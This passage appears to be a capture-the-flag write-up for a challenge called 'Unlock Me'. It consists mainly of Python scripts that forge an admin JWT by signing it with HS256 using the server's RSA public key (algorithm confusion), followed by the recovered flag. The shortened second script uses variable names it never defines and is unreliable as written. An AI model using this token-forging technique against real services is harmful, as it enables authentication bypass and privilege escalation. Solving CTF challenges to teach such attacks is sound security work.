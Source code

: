```py
import requests 
import json
import jwt, token
import base64

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
myobj = {"username":"minion","password":"banana"}
x = requests.post(url, data = myobj)

secret = open('public.pem', 'r').read()

jwt_token = x.text[16:-2]
split_token = jwt_token.split('.')
token = split_token[1]

payload = str(base64.b64decode(token + "=="))
iat = payload[43:-2]

new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
encoded_jwt = str(jwt.encode(json.loads(new_payload), key=secret, algorithm='HS256'))
encoded_jwt = encoded_jwt[2:-1]

new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
authentication = "Bearer " + encoded_jwt
headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
new_request = requests.get(new_url, headers = headers)
print(new_request.text)
```

![upload-image](/assets/img/blog/STF-Unlock-Me/11.png)
`flag : govtech-csg{5!gN_0F_+h3_T!m3S}`

Something i found out after i got the flag, was that the server did not checked for iat (issued at also known as timestamp). Therefore, the script can be further shorted into...

```py
import requests 
import json
import jwt, token
import base64

secret = open('public.pem', 'r').read()
iat = '1607431189' 

payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
encoded_jwt = str(jwt.encode(json.loads(new_payload), key=secret, algorithm='HS256'))[2:-1]
url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
authentication = "Bearer " + encoded_jwt
headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
new_request = requests.get(new_url, headers = headers)
```